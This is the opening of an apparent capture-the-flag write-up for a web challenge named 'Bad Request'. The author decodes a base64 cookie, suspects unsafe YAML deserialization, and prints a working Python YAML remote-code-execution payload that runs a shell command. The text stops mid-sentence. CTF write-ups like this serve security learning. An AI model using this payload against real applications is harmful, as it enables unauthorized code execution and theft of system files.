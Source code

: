 # A writeup on Bad Request from cybertalents, Marathon CTF.

- Challenge Name: `Bad Request`
- Level: `Medium`
- Points: `100`
- Category: `Web Security`

## Challenge Descreption
>> we are working on an api for our website , 
>> we didn't decide if YAML would be accurate or not but it is still under construction , we hope our passwd file is secure.


## First Look
as we see we got a json document `api_data	"The api is still under construction, updates coming soon!`
and taking a look at the cookies with the cookie editor we have a cookie called `data`:`YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==`
when we decode the base64 we get:`api_data: The api is still under construction, updates coming soon!`,
basiclly nothing, but when you think about it it makes sense ofcourse it has something to do with YAML
so look up `YAMl Deserialization` its a YAML RCE.

I found an intereseting payload `yaml: !!python/object/apply:subprocess.check_output ['id']` and it worked
but 
